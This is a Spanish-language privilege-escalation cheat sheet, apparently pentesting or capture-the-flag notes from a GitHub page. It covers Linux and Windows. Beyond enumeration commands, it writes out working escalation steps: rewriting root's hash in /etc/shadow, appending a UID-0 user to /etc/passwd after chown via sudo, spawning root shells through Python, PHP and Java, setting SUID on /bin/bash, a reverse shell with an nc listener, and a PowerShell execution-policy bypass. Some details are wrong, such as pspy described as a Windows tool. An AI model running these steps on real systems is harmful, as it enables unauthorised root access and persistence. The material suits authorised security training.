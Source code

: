<h1 align="center">Escalada de privilegios</h1>

## **HERRAMIENTAS ÚTILES**

- **GTFOBins:** Un repositorio de técnicas de escalada de privilegios y ejecución de comandos utilizando binarios de Unix.

### **Comprobar Comandos Sudo**

`sudo -l`

### **Buscar Contraseñas en Archivos de Configuración**

`ls /var/www/html`
- Revistar archivos php y conf

### **Crontab**

Buscar en crontab archivos que se ejecuten como root y que podamos editar:

`crontab -l`
`ls /etc/cron\*`

**Enumerar Variables de Entorno**

El comando env muestra todas las variables de entorno de la shell. Podría incluir información sensible, como contraseñas:


### **Enumerar Información del Sistema**

Enumerar rutas interesantes:

`ls -lsaht /opt | /tmp | /var/tmp | /var/backups | /var/mail | /dev/shm`

Enumerar información del sistema para encontrar posibles vulnerabilidades:

- `uname -a`
- `cat /etc/\*-release`
- `file /bin/bash`

### **Permisos SUID**

Buscar archivos con permisos SUID:

`find / -perm /4000 2>/dev/null`

### **Buscar Archivos con Permisos de Escritura y lectura**

Buscar archivos y directorios que tienen permisos de escritura para todos los usuarios:

`find / -not -type l -perm -o+w 2>/dev/null`

###

### **Modificar /etc/shadow**

Si tienes permisos de escritura en /etc/shadow, puedes generar una nueva contraseña para root:

`openssl passwd -1 -salt abc password`

Reemplazar la entrada de root en /etc/shadow con la nueva contraseña.

### **Crear enlace simbólico**

Creando un enlace simbólico desde nuestro directorio de trabajo al de root:

`ln -s /root rooter`

Y ahora desde mi equipo intento leerla:

`curl <http://192.168.1.26:3333/jan/rooter/root.txt>`

### **Capabilities**

`/usr/sbin/getcap -r / 2>/dev/null`

Este comando recorrerá todos los archivos del sistema y mostrará sus capacidades, si las tienen. Se pueden explotar desde GTFObins en capabilities copiando en comando

### **Ver archivos con Nmap**

`nmap -iL \*ruta\*`

### **Ver si un archivo se esta ejecutando en el script de otro archivo (Tareas programadas)**

`grep -nri “/tmp/message” / 2>dev/null`

Busca de forma recursiva si en /usr hay algun script que mencione el archivo “/tmp/message”

### **Script para fuerza bruta al usuario root**

<https://github.com/d4t4s3c/suForce>

##

## **EJEMPLOS DE ESCALADA**

### **Escalada con Python**

Si tienes permisos de escritura en el script, edítalo para incluir una línea que proporcione una bash con privilegios de root.

- `import os`
- `os.system(“/bin/sh”)`

Si no puedes editar el script, puedes eliminarlo y crear uno nuevo con el mismo nombre, ejemplo:

<https://romabri.github.io/Library>

###

### **Escalada con grep y cut**

Si dispones de permisos como root en grep y cut haciendo sudo -l, puedes ver archivos que sólo root puede ver

### **Escalada con Java**

Si tienes permisos de root en Java:

1. Crear un archivo revershell.java que contenga la reverse shell.
2. Ejecutarlo con java como sudo

`sudo /usr/bin/java revershell.java`

1. Escuchar la conexión en la máquina local:

`nc -lvnp &lt;puerto&gt;`

### **Escalada con PHP**

Si puedes ejecutar PHP como otro usuario usando sudo, ejecuta el siguiente comando para abrir una terminal con el usuario indicado.

`sudo -u chocolate /usr/bin/php -r 'system("/bin/sh");`

![image](https://github.com/user-attachments/assets/29ead444-3a83-4584-ba0e-b824fe090d9e)


Si puedes ejecutar PHP como root, ejecuta el siguiente comando para conceder permisos SUID al bash. Cuando el bash se ejecute obtendrás una terminal con el usuario root

`echo '&lt;?php exec("chmod 4755 /bin/bash"); ?&gt;' > /opt/script.php`

##

### **Escalada con chown**

- `LFILE=/etc/passwd`
- `sudo chown $(id -un):$(id -gn) $LFILE`
- `openssl passwd hola123`
- `echo 'newroot:$1$EBhVbkUV$zW3uLFiknxfdzUV5OjQZ40:0:0::/home/newroot:/bin/bash' >> /etc/passwd`
- `su newroot`


## **AUTOMATIZAR ESCALADA EN WINDOWS**

### **PSPY64**

Es una herramienta diseñada para monitorear procesos y detectar configuraciones incorrectas que podrían permitir la escalada de privilegios en sistemas Windows.

<https://github.com/DominicBreuker/pspy>

### **LOCAL_EXPLOIT_SUGGESTER (metasploit)**

![image](https://github.com/user-attachments/assets/5deee4e3-d5bc-4d19-a563-2b4783a783a3)

Seleccionamos uno de ellos, en este caso ms16_014_wmi_recv_notif, rellenamos los campos y establecemos la sesion meterpreter con altos privilegios


También existe esta misma herramienta en github que contiene el manual de uso:

<https://github.com/AonCyberLabs/Windows-Exploit-Suggester>

### **PRIVESC CHECK**

Existe un script en PowerShell que enumera las credenciales de otros usuarios y posibles vías de escalada de privilegios.

Clonar repositorio:

<https://github.com/itm4n/PrivescCheck.git>

Transferir el repositorio clonado a la máquina Windows vulnerada y posicionarnos dentro de la carpeta clonada. Una vez ahí ejecutar el siguiente comando:

`powershell -ep bypass -c ". .\\PrivescCheck.ps1; Invoke-PrivescCheck"`

![image](https://github.com/user-attachments/assets/bfd3fdb0-ad3f-4423-afe3-306b1131bbd6)

## **AUTOMATIZAR ESCALADA EN LINUX**

### **LINPEAS**

Es una herramienta que busca en el sistema configuraciones incorrectas y vulnerabilidades que pueden permitir la escalada de privilegios.

<https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS>
